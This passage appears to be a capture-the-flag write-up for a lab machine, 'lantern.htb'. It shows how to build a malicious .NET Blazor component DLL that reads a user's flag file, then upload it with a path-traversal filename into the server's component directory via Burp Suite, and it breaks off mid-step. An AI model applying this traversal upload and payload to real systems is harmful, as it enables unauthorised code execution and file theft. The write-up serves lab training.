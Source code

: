     ```bash
    sudo apt install dotnet-sdk-6
    ```

2. **Create and Configure .NET Project**:

    ```bash
    dotnet new console -c sedlyf
    ```
    ```bash
    dotnet add package Microsoft.AspNetCore.Components --version 6.0.0
    ```

3. **Update `Program.cs`**:

    ```csharp
    using Microsoft.AspNetCore.Components;
    using Microsoft.AspNetCore.Components.Rendering;
    using System.IO;

    namespace sedlyf
    {
        public class Component : ComponentBase
        {
            protected override void BuildRenderTree(RenderTreeBuilder builder)
            {
                base.BuildRenderTree(builder);

                // Read file content
                string file = File.ReadAllText("/home/tomas/user.txt"); // user flag
                builder.AddContent(0, file);
            }
        }
    }
    ```

4. **Build the DLL**:

    ```bash
    dotnet build sedlyf.csproj -c Release
    ```

    The DLL is saved in `bin/Release/net6.0/sedlyf.dll`.

### Exploiting the Upload

Upload the DLL to `lantern.htb:3000`. The file upload page allows for arbitrary file uploads.

To circumvent directory restrictions, modify the filename to:

```
../../../../../../opt/components/sedlyf.dll
```

Intercept and modify the request with Burp Suite and Blazor Traffic Processor:

1. **Intercept and Send**:
   